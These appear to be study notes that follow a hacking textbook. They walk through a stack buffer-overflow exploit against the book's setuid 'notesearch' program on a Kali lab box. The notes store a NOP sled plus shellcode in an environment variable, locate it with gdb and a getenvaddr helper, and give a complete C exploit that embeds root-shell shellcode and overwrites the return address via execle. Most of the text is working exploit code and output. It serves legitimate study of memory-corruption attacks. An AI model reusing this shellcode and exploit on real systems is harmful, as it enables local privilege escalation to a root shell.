Put ```shellcode.bin``` in an environment variable

```sh
root@kali:~/hacking/booksrc# export SHELLCODE=$(perl -e 'print "\x90"x200')$(cat shellcode.bin)
```

```sh
root@kali:~/hacking/booksrc# echo $SHELLCODE
��������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������1�1�1ə��̀j
                                                XQh//shh/bin��Q��S��̀
root@kali:~/hacking/booksrc#
```

Shellcode is now on the stack in an environment variable, along with a 200-byte NOP sled. This means we just need to find an address somewhere in that range of the sled to overwrite the saved return address with. The environment variables are located near the bottom of the stack, so this is where we should look when running notesearch in a debugger.

```sh
root@kali:~/hacking/booksrc# gdb ./notesearch -q
Reading symbols from ./notesearch...(no debugging symbols found)...done.
(gdb) break main
Breakpoint 1 at 0x9dd
(gdb) run
Starting program: /root/hacking/booksrc/notesearch

Breakpoint 1, 0x800009dd in main ()
(gdb) i r esp
esp            0xbffff540	0xbffff540
(gdb) x/24s $esp + 0x240
0xbffff780:	"so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc=01;31:*.arj=01;31:*.taz=01;31:*.lha=01;31:*.lz4"...
0xbffff848:	"=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.tzo=01;31:*.t7z=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lrz=01;31:*.lz=01;31:*.lzo=01;31:*.xz=01;31:*.zst=01;31:*.tzst=0"...
0xbffff910:	"1;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.alz=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7"...
0xbffff9d8:	"z=01;31:*.rz=01;31:*.cab=01;31:*.jpg=01;35:*.jpeg=01;35:*.mjpg=01;35:*.mjpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01"...
0xbffffaa0:	";35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:"...
0xbffffb68:	"*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35"...
0xbffffc30:	":*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx="...
0xbffffcf8:	"00;36:*.xspf=00;36:"
0xbffffd0c:	"SSH_CONNECTION=10.85.188.14 55306 10.85.188.63 22"
0xbffffd3e:	"_=/usr/bin/gdb"
0xbffffd4d:	"LANG=en_US.UTF-8"
0xbffffd5e:	"OLDPWD=/root/hacking"
0xbffffd73:	"XDG_SESSION_ID=4"
0xbffffd84:	"SHELLCODE=", '\220' <repeats 190 times>...
0xbffffe4c:	"\220\220\220\220\220\220\220\220\220\220\061\300\061\333\061ə\260\244̀j\vXQh//shh/bin\211\343Q\211\342S\211\341̀"
0xbffffe7a:	"USER=root"
0xbffffe84:	"MYVAR=text"
0xbffffe8f:	"PWD=/root/hacking/booksrc"
0xbffffea9:	"LINES=55"
0xbffffeb2:	"HOME=/root"
0xbffffebd:	"SSH_CLIENT=10.85.188.14 55306 22"
0xbffffede:	"SSH_TTY=/dev/pts/1"
0xbffffef1:	"COLUMNS=161"
0xbffffefd:	"MAIL=/var/mail/root"
(gdb)
```

Refer to page ```145``` - ```146``` of the book

In C’s standard library there is a function called ```getenv()```, which accepts the name of an environment variable as its only argument and returns that variable’s memory address. The code in ```getenv_example.c``` demonstrates the use of ```getenv()```.

```c
root@kali:~/hacking/booksrc# cat getenv_example.c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[]) {
	printf("%s is at %p\n", argv[1], getenv(argv[1]));
}
root@kali:~/hacking/booksrc#
```

```sh
root@kali:~/hacking/booksrc# gcc getenv_example.c -o getenv_example
```

```sh
root@kali:~/hacking/booksrc# ./getenv_example SHELLCODE
SHELLCODE is at 0xbf98fda0
root@kali:~/hacking/booksrc#
```



The length of the name of the program being executed seems to have an effect on the address of the environment variables.

```c
root@kali:~/hacking/booksrc# cat getenvaddr.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
	char *ptr;

	if(argc < 3) {
		printf("Usage: %s <environment variable> <target program name>\n", argv[0]);
		exit(0);
	}
	ptr = getenv(argv[1]); /* get env var location */
	ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* adjust for program name */
	printf("%s will be at %p\n", argv[1], ptr);
}
root@kali:~/hacking/booksrc#
```



```fork()```

Starts a new process

```execl()```

Used to run the command

[guide for fork() and execl()](https://www.gnu.org/software/libc/manual/html_node/Process-Creation-Example.html)

The use of ```system()``` can sometimes cause problems. If a ```setuid``` program uses ```system()```, the privileges won’t be transferred, because ```/bin/sh``` has been dropping privileges since version two.

The ```execl()``` function has a sister function called ```execle()```, which has one additional argument to specify the environment under which the executing process should run. This environment is presented in the form of an array of pointers to null-terminated strings for each environment variable, and the environment array itself is terminated with a NULL pointer.

```c
root@kali:~/hacking/booksrc# cat exploit_notesearch_env.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char shellcode[]=
"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68"
"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89"
"\xe1\xcd\x80";

int main(int argc, char *argv[]) {
	char *env[2] = {shellcode, 0};
	unsigned int i, ret;

	char *buffer = (char *) malloc(160);

	ret = 0xbffffffa - (sizeof(shellcode)-1) - strlen("./notesearch");
	for(i=0; i < 160; i+=4)
		*((unsigned int *)(buffer+i)) = ret;

	execle("./notesearch", "notesearch", buffer, 0, env);
	free(buffer);
}
root@kali:~/hacking/booksrc#
```

```sh
root@kali:~/hacking/booksrc# gcc exploit_notesearch_env.c -o exploit_notesearch_env
```

